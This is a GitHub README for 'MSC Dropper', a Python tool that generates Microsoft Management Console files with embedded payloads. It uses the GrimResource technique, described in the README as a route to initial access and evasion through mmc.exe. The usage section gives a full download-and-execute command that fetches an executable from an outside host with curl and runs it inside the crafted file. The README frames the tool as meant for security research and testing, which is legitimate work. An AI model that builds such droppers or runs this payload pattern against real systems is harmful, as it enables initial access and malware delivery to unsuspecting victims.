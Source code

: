 ![logo](https://github.com/ZERODETECTION/H9_Stage0/blob/main/logo_sm.png)
# MSC Dropper Tool

MSC Dropper is a Python script designed to automate the creation of MSC (Microsoft Management Console) files with customizable payloads for arbitrary execution. This tool leverages a method discovered by Samir (@SBousseaden) from Elastic Security Labs, termed #GrimResource, which facilitates initial access and evasion through `mmc.exe`.

## Overview

The script allows users to generate MSC files that can execute arbitrary commands or scripts within the Microsoft Management Console environment. This capability is particularly useful for security research and testing environments.

## Features

- **Automated MSC File Generation**: Create MSC files with specified commands or scripts embedded.
- **Payload Customization**: Customize the payload to execute any command or script that `mmc.exe` can invoke.
- **Command-Line Interface**: Simple command-line interface for quick generation of MSC files.

## Installation

Clone the repository:

   ```bash
   git clone https://github.com/your-username/msc-dropper.git
   ```

## Usage

### Generating an MSC File

To generate an MSC file with a specific command or script:

```bash
python msc_dropper.py template1.msc out.msc "cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"
```

Replace `"cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"` with the command or script you want to execute. Ensure that the command is formatted correctly to work within the Windows environment and `mmc.exe`.

### Customizing Payloads

You can customize the payload directly within the `template1.msc` file or modify the script to automate more complex payload generation.

## Contributing

Contributions are welcome! Please fork the repository and submit pull requests.

## Credits

- Samir (@SBousseaden) from Elastic Security Labs for discovering the initial access and evasion method involving `mmc.exe`.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
